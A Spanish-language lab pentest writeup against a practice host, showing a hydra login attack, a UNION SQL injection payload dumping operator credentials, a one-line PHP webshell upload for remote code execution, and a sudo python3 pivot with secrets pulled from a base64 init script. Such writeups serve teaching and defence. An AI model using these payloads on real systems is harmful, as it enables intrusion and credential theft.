# Auditoría de Seguridad Ofensiva — RECON

| Campo | Valor |
|---|---|
| **Objetivo** | `172.17.0.2` |
| **Fecha** | 21 de noviembre de 2026 |
| **Analista** | chifay |
| **Clasificación** | Público — Writeup de laboratorio |
| **Resultado** | Compromiso total (root) |
| **Flag root** | `RECON{REDACTED}` |

> **Versión pública:** las credenciales y la flag se muestran redactadas en el texto y en las capturas.

---

<div class="pagebreak"></div>

<div class="toc-title">Tabla de contenido</div>

[TOC]

---

## 1. Resumen ejecutivo

Se realizó una auditoría de seguridad ofensiva sobre el host `172.17.0.2`. El reconocimiento identificó tres servicios TCP expuestos: **SSH (22/tcp)**, **HTTP (80/tcp)** y **RDP (3389/tcp)**. El portal web **ORION Tactical Reconnaissance Command** permitía el acceso con credenciales débiles (`voss:REDACTED`).

Una vez autenticado, se identificaron dos vulnerabilidades críticas en la aplicación: una **inyección SQL** en el buscador de inventario y una **carga de archivos sin restricciones** en el canal de transferencia. La segunda permitió ejecutar código arbitrario como el usuario `www-data`.

La enumeración local reveló una regla `sudo` que permitía ejecutar `python3` como el usuario `sentinel` sin contraseña. El binario `/sbin/sys-daemon` (PID 1, permisos `755`) contenía el script de inicialización del entorno codificado en base64. Al decodificarlo se obtuvieron la contraseña de `sentinel`, las reglas `sudo` del sistema y la ubicación de la flag root. Con esa contraseña se ejecutó `sudo` y se obtuvo acceso como `root`, confirmando el compromiso total del host.

**Riesgo global: Crítico.** La cadena permite a un atacante remoto pasar de un acceso web con credenciales débiles a control total del sistema, con capacidad de lectura de la flag, modificación del host y movimiento lateral hacia los nodos del inventario (`10.7.1.0/24`).

> **Nota sobre los hitos:** el escenario define un acceso no privilegiado y un control total. El acceso no privilegiado se materializó con la cuenta `sentinel` (uid 1000). En el host no se localizó un archivo de flag de usuario independiente; el único archivo de flag canónico es `/root/flag.txt`, recuperado tras la escalada.

---

## 2. Alcance y metodología

### 2.1 Alcance

- Host único: `172.17.0.2`.
- Todos los puertos TCP (1-65535) y los 100 puertos UDP más comunes.
- Aplicación web publicada en el puerto 80.
- Servicios SSH y RDP expuestos.
- Post-explotación local y escalada de privilegios.

### 2.2 Metodología

La auditoría siguió las fases de **PTES** y las guías **OWASP WSTG** para la parte web, con mapeo a **MITRE ATT&CK**:

| Táctica / Técnica | ID |
|---|---|
| Network Service Discovery | T1046 |
| Exploit Public-Facing Application | T1190 |
| Command and Scripting Interpreter | T1059 |
| Abuse Elevation Control Mechanism: Sudo | T1548.003 |
| Unsecured Credentials | T1552 |

### 2.3 Herramientas

`nmap`, `whatweb`, `curl`, `gobuster`, `hydra`, `sqlmap`, `rdesktop`, `strings`, `base64`, `mysql`.

### 2.4 Consideraciones

- El ataque de diccionario se limitó a una lista controlada de 1.053 contraseñas.
- No se realizaron pruebas de denegación de servicio.
- Las acciones de post-explotación se limitaron a la lectura de evidencia y a la escalada.
- Los webshells cargados durante la auditoría fueron eliminados al finalizar.

---

## 3. Reconocimiento

### 3.1 Descubrimiento de puertos

Se realizó un escaneo completo de puertos TCP con `nmap`:

```bash
nmap -p- --min-rate 2000 -T4 172.17.0.2 -oN scans/allports.txt
```

**Resultado:**

| Puerto | Estado | Servicio |
|---|---|---|
| 22/tcp | open | ssh |
| 80/tcp | open | http |
| 3389/tcp | open | ms-wbt-server |

No se identificaron puertos dinámicos ni servicios ocultos en el rango completo. Se repitieron los escaneos en varias ventanas de tiempo para descartar servicios efímeros.



### 3.2 Fingerprinting de servicios

```bash
nmap -sV -sC -p22,80,3389 -Pn 172.17.0.2 -oN scans/services.txt
```

**Resultados relevantes:**

- **22/tcp:** `OpenSSH 9.2p1 Debian 2+deb12u10`.
- **80/tcp:** `Apache httpd 2.4.68 (Debian)`; título `ORION Tactical Reconnaissance Command`.
- **3389/tcp:** `Microsoft Terminal Service` (xrdp), con NLA, SSL y RDP 5.x-8.x.



### 3.3 Enumeración web

La página principal mostraba el portal **ORION** con un enlace a `access.php`. La enumeración de contenido con `gobuster` reveló las siguientes rutas:

```bash
gobuster dir -u http://172.17.0.2 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,txt,html,bak,zip -t 50 --timeout 10s -q
```

| Ruta | Código | Observación |
|---|---|---|
| `/index.php` | 200 | Portal público |
| `/access.php` | 200 | Formulario de login |
| `/command.php` | 302 → `access.php` | Requiere sesión |
| `/inventory.php` | 302 → `access.php` | Requiere sesión |
| `/transfer.php` | 302 → `access.php` | Requiere sesión |
| `/uploads/` | 301 | Directorio con listado |
| `/assets/` | 301 | Directorio con listado |
| `/server-status` | 403 | Estado de Apache restringido |





**Observaciones:**

- `whatweb` identificó Apache 2.4.68, HTML5 y el correo `watchdesk@orion.local`.
- Los directorios `/uploads/` y `/assets/` tenían **listado de directorios habilitado**.
- El formulario de login no reflejaba errores detallados; el mensaje era siempre `Authentication failed.`.
- El login utiliza consultas preparadas (`mysqli` con `bind_param`), por lo que **no** era inyectable.

**Listado de directorios y `server-status`:**

```bash
curl -sS -i http://172.17.0.2/uploads/ | head -18
curl -sS -o /dev/null -w 'server-status: %{http_code}\n' http://172.17.0.2/server-status
```



### 3.4 Otros servicios

- **SSH:** autenticación por contraseña habilitada; `root` sin login remoto; `sentinel` incluido en `DenyUsers`.
- **RDP:** xrdp con NLA/SSL. El servicio permite autenticación de usuarios del sistema; se verificó posteriormente con la cuenta `sentinel`.
- **UDP:** el escaneo de los 100 puertos más comunes no reveló servicios relevantes.

---

## 4. Acceso inicial

### 4.1 Credenciales débiles en el portal ORION (F-01)

El formulario `access.php` permitía autenticación con usuario y contraseña. Se ejecutó un ataque de diccionario controlado contra el usuario `voss`, identificado en el portal como autor del boletín:

```bash
hydra -l voss -P wordlists/pass1k.txt -t 8 -f -I 172.17.0.2 \
  http-post-form "/access.php:username=^USER^&password=^PASS^:F=Authentication failed"
```

**Credenciales válidas:** `voss:REDACTED`.



El login devolvió `302 Found` con `Location: command.php`, confirmando el acceso:

```bash
curl -sS -i -c /tmp/recon.cookies \
  -d 'username=voss&password=REDACTED' http://172.17.0.2/access.php
```



**Impacto:** acceso completo a las funciones autenticadas: inventario de activos, canal de transferencia y consola de comandos.

**Remediación:** política de contraseñas robusta, MFA, limitación de intentos, bloqueo temporal y monitorización de autenticaciones fallidas.

---

### 4.2 Inyección SQL en el inventario (F-02)

El parámetro `search` de `inventory.php` se concatenaba directamente en la consulta:

```sql
SELECT id, ip_address, hostname, operating_system
FROM assets
WHERE ip_address LIKE '%$search%'
```

**Prueba booleana:**

- `search=10.7.1.10' AND 1=1-- -` → 1 fila.
- `search=10.7.1.10' AND 1=2-- -` → 0 filas.

**Extracción con UNION:** la consulta tiene cuatro columnas, por lo que se pudo inyectar:

```bash
curl -sS -b /tmp/recon.cookies --get \
  --data-urlencode "search=10.7.1.10%' UNION SELECT 1,username,password,role FROM operators-- -" \
  http://172.17.0.2/inventory.php
```

**Resultado:**

| id | username | password | role |
|---|---|---|---|
| 1 | `voss` | `REDACTED` | `commander` |
| 1 | `sentinel` | `REDACTED` | `field_ops` |

También se extrajo información del motor y del usuario de base de datos:

```text
10.11.18-MariaDB-0+deb12u1 | orion_ro@localhost | orion_intel
```



**Impacto:** divulgación de credenciales de operadores y de la estructura de la base de datos. La cuenta de aplicación `orion_ro` solo tenía permisos `SELECT` sobre `orion_intel`, lo que limitó el impacto al ámbito de esa base.

**Remediación:** consultas preparadas con `bind_param`, validación de entrada y principio de mínimo privilegio para el usuario de base de datos.

---

### 4.3 Carga de archivos sin restricciones → RCE (F-03)

`transfer.php` aceptaba un archivo y lo movía a `/uploads/` conservando el nombre original, sin validar extensión, tipo MIME ni contenido:

```php
$name = basename($_FILES["package"]["name"]);
$dest = __DIR__ . "/uploads/" . $name;
move_uploaded_file($_FILES["package"]["tmp_name"], $dest);
```

Se cargó un webshell PHP:

```bash
cat > /tmp/orion.php <<'EOF'
<?php system($_GET["cmd"]); ?>
EOF

curl -sS -b /tmp/recon.cookies \
  -F 'package=@/tmp/orion.php;filename=orion.php' \
  http://172.17.0.2/transfer.php
```

**Resultado:** `Package stored: /uploads/orion.php`.

La ejecución se confirmó con:

```bash
curl -sS 'http://172.17.0.2/uploads/orion.php?cmd=id'
```

**Resultado:** `uid=33(www-data) gid=33(www-data) groups=33(www-data)`.



**Impacto:** ejecución remota de código como `www-data`, con acceso de lectura al código fuente, a la configuración y a la base de datos local.

**Remediación:** lista blanca de extensiones y tipos MIME, nombres aleatorios, almacenamiento fuera del web root, permisos sin ejecución en `/uploads/`, análisis antimalware y límites de tamaño.

---

## 5. Post-explotación y escalada de privilegios

### 5.1 Enumeración local

Con el webshell se ejecutó `id` y `sudo -l`:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)

User www-data may run the following commands on recon:
    (sentinel) NOPASSWD: /usr/bin/python3
```



La enumeración de procesos y puertos mostró:

- PID 1: `/sbin/sys-daemon` (root).
- MariaDB escuchando en `127.0.0.1:3306`.
- xrdp-sesman en `[::1]:3350`.
- Apache en `0.0.0.0:80`.
- SSH en `0.0.0.0:22` y `[::]:22`.
- RDP en `*:3389`.
- Una sesión `xrdp-chansrv` propiedad de `sentinel`, evidencia del acceso RDP.



### 5.2 Pivot a sentinel (F-04)

La regla `sudo` permitía ejecutar `python3` como `sentinel` sin contraseña. Se utilizó para obtener una shell y confirmar el contexto:

```bash
sudo -u sentinel /usr/bin/python3 -c 'import os; os.system("id")'
```

**Resultado:** `uid=1000(sentinel) gid=1000(sentinel) groups=1000(sentinel)`.

### 5.3 Secretos embebidos en `/sbin/sys-daemon` (F-05)

El binario `/sbin/sys-daemon` era legible por todos los usuarios:

```text
-rwxr-xr-x 1 root root 20576 Jul 31 19:11 /sbin/sys-daemon
```

Contenía el script de inicialización del entorno codificado en base64. La extracción se realizó con:

```bash
strings /sbin/sys-daemon \
  | grep -E '^[A-Za-z0-9+/=]{200,}$' \
  | base64 -d \
  | grep -E 'sentinel:|sentinel ALL|www-data ALL|flag.txt'
```

**Líneas relevantes del script decodificado:**

```bash
echo 'sentinel:REDACTED' | chpasswd
printf 'www-data ALL=(sentinel) NOPASSWD: /usr/bin/python3\n' > /etc/sudoers.d/orion-web
printf 'sentinel ALL=(ALL:ALL) ALL\n' > /etc/sudoers.d/orion-sentinel
echo 'RECON{REDACTED}' > /root/flag.txt
chmod 400 /root/flag.txt
chown root:root /root/flag.txt
```

